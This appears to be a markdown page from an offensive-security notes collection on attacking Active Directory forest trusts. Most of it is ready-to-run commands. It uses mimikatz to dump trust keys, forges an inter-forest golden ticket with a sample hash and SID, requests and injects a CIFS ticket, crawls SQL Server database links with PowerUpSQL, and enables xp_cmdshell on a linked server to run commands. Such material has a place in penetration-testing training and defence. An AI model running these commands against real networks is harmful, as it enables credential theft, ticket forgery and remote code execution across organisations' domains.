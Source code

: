 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Trust Key

Technically, when you use a trust, there is a communication between the domain controller of your domain and the domain controller of the target domain (or of an intermediary domain).

How communication is made varies depending of the protocol that is being used (which could be NTLM, Kerberos, etc), but in any case, the domain controllers needs to share a key to keep the communications secure. This key is known as the trust key and it's created when the trust is established.

When a trust is created, a trust account is created in the domain database as if it were an user (with the name finished in $). The trust key is then stored as if it was the password of the trust user (in the NT hash and Kerberos keys).

# Across Forest using Trust Tickets

A trust ticket is a key which a DC of the other forest uses to decrypt the TGT presented by the attacker. That is the only check. We are going to execute a similar attack such as golden ticket but using the *trust ticket* instead of the _krbtgt_ hash.

To list the Trust tickets we can use mimikatz:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

So an inter-forest TGT can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

Now we can request a TGS for `cifs` service on the dc of the trusted forest.

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```
And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.ps1
```

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery('sql2.corp.local', 'select * from master..sysservers')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

